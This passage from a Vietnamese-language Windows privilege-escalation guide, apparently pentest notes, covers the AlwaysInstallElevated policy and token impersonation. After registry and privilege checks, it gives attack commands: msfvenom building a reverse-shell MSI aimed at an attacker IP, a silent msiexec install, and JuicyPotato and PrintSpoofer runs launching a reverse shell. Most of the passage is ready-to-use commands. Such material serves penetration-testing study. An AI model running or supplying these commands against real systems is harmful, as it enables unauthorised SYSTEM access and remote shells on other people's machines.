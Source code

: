 #### 4.3.3. AlwaysInstallElevated

AlwaysInstallElevated là một cài đặt chính sách cho phép người dùng không có quyền quản trị cài đặt các gói Windows Installer (.msi) với đặc quyền SYSTEM.

##### Kiểm tra cài đặt AlwaysInstallElevated
```powershell
## Kiểm tra registry keys
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

## Cả hai key cần có giá trị 1
```

##### Khai thác
```powershell
## Tạo MSI payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f msi -o malicious.msi

## Cài đặt MSI
msiexec /quiet /qn /i C:\path\to\malicious.msi
```

#### 4.3.4. Token Impersonation

Token impersonation là kỹ thuật giả mạo token xác thực của người dùng khác để có được đặc quyền của họ.

##### Kiểm tra quyền impersonation
```powershell
whoami /priv
```

Tìm các quyền như:
- SeImpersonatePrivilege
- SeAssignPrimaryTokenPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

##### Khai thác Potato Attacks

**Rotten/Juicy Potato** (Windows 10 1809 và trước đó)
```cmd
JuicyPotato.exe -t * -p C:\path\to\reverse_shell.exe -l 1337
```

**PrintSpoofer** (Windows 10/Server 2019)
```cmd
PrintSpoofer.exe -i -c "C:\path\to\reverse_shell.exe"
```
